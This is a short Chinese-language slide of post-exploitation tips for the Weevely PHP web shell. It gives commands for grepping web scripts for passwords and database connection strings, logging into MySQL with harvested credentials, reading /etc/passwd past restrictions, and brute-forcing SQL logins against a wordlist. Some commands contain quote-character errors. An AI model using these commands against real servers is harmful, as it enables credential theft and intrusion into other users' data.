

# Weevely技巧
1、查找包含其他web用户的文件夹 ls
2、使用grep命令查找其他用户存储在php脚本中的密码
grep . '^[^*/#]*passw?o?r?d?‘
3、我们发现一些连接数据库的语句。
grep . ‘mysql_conn’   递归查询irn
4、我们可以使用sql_console模块来连接
www-data@target:/var/www/members PHP> :sql_console -user rotozy -passwd rotozy123 -host 10.4.4.7
绕过策略读取/etc/passwd
www-data@target:/var/www/html PHP> :audit_etcpasswd
猜sql凭据
www-data@target:/var/www/html PHP> :bruteforce_sql mysql -users roblast micjanost pjgomes pdpeers root -fpwds wordlists/huge.txt
查看信息
member@target:/home/member/logs PHP> :system_info -info client_ip
53